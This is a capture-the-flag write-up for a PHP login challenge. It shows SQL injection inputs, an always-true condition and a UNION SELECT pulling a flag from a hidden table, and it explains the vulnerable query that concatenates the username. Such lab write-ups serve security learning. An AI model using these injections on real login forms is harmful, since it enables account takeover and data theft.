



    I think an administrator blocked my account. Can you help me steal someone else's account?
    
    Note: There are two flags in this challenge. 

Again, we started trying basic stuff:

    user: ' or 1=1 -- 
    pass: ' or 1=1 -- 

And guess what, it partially worked!

Now, for the second flag 

    user: ' UNION SELECT flag FROM my_secret_table -- 
    pass: ' anything

There you go :)

## Why it works

First thing to notice while skimming the code is this comic (and sad) comment:

    // $query = "SELECT flag FROM my_secret_table"; We leave commented code in production because we're cool.

Right after it:

    $query = "SELECT username FROM users where username = '" . $_POST['username'] . "' and password = ?";

Later in the code we see the logic used to validate the user. 

~~~~
    // Bind password param
    $query->bind_param("s", $_POST['password']);
    $query->execute();
    $query->bind_result($user);
    $query->fetch();

        // Check if a valid user has been found
        if ($user != NULL) {
            session_start();
            $_SESSION['is_logged_in'] = true;
            $_SESSION['username'] = $user;
        } else {
            $error = true;
            $error_msg = "<strong>Wrong!</strong> Username/Password is invalid.";
        }
~~~~ 

The password field is first binded to the query. Then, it is executed, saving the results in the $user variable. If any user is found, you are in and your flag is printed.

Our final query then is:

    "SELECT username FROM users where username = '' UNION SELECT flag FROM my_secret_table -- ' and password = anything"
